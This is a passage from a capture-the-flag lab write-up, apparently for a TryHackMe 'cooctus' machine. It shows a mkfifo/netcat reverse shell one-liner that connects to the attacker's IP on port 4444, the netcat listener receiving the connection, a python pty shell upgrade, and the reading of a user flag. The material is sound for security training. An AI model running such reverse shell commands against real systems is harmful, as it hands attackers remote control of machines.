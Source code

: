 
Obvious next thing to try is a reverse shell. May as well use a [PenTestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) classic:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.165.116 4444 >/tmp/f
```

I find this one works much more than most others. Let's get a netcat listener waiting, then try the reverse shell from the webpage:

![cooctus-revshell](/assets/images/2021-04-19-21-33-26.png)

Switch to our listener and we are connected:

```text
┌──(root💀kali)-[~/thm/cooctus]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.201.142] 40528
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's upgrade to a better shell:

```text
$ python3 -c "import pty;pty.spawn('/bin/bash')"
paradox@cchq:~$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~/thm/cooctus]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
```

One thing to note, if you're using zsh then you need to use **stty raw -echo; fg** or you shell will crash!

Ok let's have a look around:

```text
paradox@cchq:~$ id
uid=1003(paradox) gid=1003(paradox) groups=1003(paradox)

paradox@cchq:~$ pwd
/home/paradox

paradox@cchq:~$ ls -ls       
total 8
4 drwxr-xr-x 4 paradox paradox 4096 Jan  1 22:03 CATapp
4 -rw------- 1 paradox paradox   38 Feb 20 20:23 user.txt

paradox@cchq:~$ cat user.txt     
THM{2dccd1ab3e03990aea77359831c85ca2}
```
